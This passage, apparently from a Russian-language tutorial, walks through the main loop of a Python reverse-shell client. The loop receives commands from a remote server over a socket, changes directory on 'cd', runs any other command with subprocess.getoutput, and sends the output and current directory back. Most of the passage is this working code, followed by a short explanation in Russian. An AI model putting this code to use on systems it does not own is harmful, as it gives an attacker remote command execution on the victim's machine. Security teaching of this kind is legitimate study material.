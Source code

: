 Перейдя в основной цикл, мы сначала получаем команду от сервера, выполняем ее и отправляем результат обратно. Вот код для этого:

while True:
    # receive the command from the server
    command = s.recv(BUFFER_SIZE).decode()
    splited_command = command.split()
    if command.lower() == "exit":
        # if the command is exit, just break out of the loop
        break
    if splited_command[0].lower() == "cd":
        # cd command, change directory
        try:
            os.chdir(' '.join(splited_command[1:]))
        except FileNotFoundError as e:
            # if there is an error, set as the output
            output = str(e)
        else:
            # if operation is successful, empty message
            output = ""
    else:
        # execute the command and retrieve the results
        output = subprocess.getoutput(command)
    # get the current working directory as output
    cwd = os.getcwd()
    # send the results back to the server
    message = f"{output}{SEPARATOR}{cwd}"
    s.send(message.encode())
# close client connection
s.close()
Во-первых, мы получаем команду с сервера с помощью метода recv() на объекте socket, затем проверяем, является ли это командой cd, если это так, то мы используем функцию os.chdir() для изменения каталога, потому что subprocess.getoutput() порождает свой собственный процесс и не изменяет каталог в текущем процессе Python.

После этого, если это не команда cd, то мы просто используем функцию subprocess.getoutput() для получения выходных данных выполненной команды.
